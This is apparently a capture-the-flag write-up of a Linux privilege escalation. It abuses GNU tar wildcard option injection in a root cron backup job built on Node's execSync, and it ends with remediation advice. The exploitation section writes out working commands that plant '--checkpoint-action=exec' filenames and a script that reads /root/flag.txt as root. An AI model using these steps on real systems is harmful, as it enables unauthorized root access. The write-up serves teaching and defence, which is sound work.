

# Escalate Me — GNU tar Wildcard Injection in a Root Backup Job

**Category:** Linux Privilege Escalation · **Event:** AlgoCyber / Algolymp 2026  
**Flag:** `Algolymp{cr0n_w1ldc4rd_n0d3}`

## Initial access and enumeration

We started with a shell as `uid=1001(developer)`. A periodic root cron job invoked a Node.js CLI's `backup` command every 30 seconds. It archived an attacker-writable directory:

```text
/var/lib/caged-runtime/inbox
```

The key code in `/opt/caged-runtime/src/backup.js` was:

```js
const { execSync } = require('node:child_process');
const command = `tar -czf ${config.paths.backupArchive} *`;
execSync(command, { cwd: config.paths.backupQueue });
```

The default backup target was `/var/backups/caged-runtime.tar.gz`. The cron definition ran the backup as `root`. A benign `probe.txt` was placed in `inbox`; after a cron cycle, listing the archive using `tar -tzf` showed `probe.txt`, confirming the privileged process consumed attacker-controlled filenames.

## Vulnerability

Because `execSync` launches a shell, the `*` is expanded **before** GNU tar sees the command line. Filenames beginning with `--` can then be interpreted as GNU tar options rather than archive members. The directory's writability, together with the root execution context, turns a file-naming issue into command execution as root.

This is *argument/option injection via shell glob expansion*, not an injection into the JavaScript command template itself.

## Exploitation

The files below were created in the writable queue (the script is a benign proof of root execution):

```bash
printf '%s\n' 'id > /var/lib/caged-runtime/inbox/proof.txt; chmod 644 /var/lib/caged-runtime/inbox/proof.txt' \
  > /var/lib/caged-runtime/inbox/exploit.sh
/usr/bin/touch /var/lib/caged-runtime/inbox/--checkpoint=1
/usr/bin/touch '/var/lib/caged-runtime/inbox/--checkpoint-action=exec=sh exploit.sh'
```

After the next cron cycle, `cat /var/lib/caged-runtime/inbox/proof.txt` showed:

```text
uid=0(root) gid=0(root) groups=0(root)
```

The interactive shell remained `developer`. This was **root command execution inside the scheduled backup job**, not an upgraded interactive shell.

To complete the CTF, the same `exploit.sh` was updated to read `/root/flag.txt` into an attacker-readable proof file in the backup directory. The flag was:

```text
Algolymp{cr0n_w1ldc4rd_n0d3}
```

## Proof



## Remediation

Do not construct archive commands by concatenating glob-expanded filenames. Prefer `execFileSync` / `spawn` with explicit argument arrays, ensure filenames are passed after `--` where supported, avoid options embedded in filenames, and keep privileged backup processes from reading user-writable directories without strict validation or isolation.
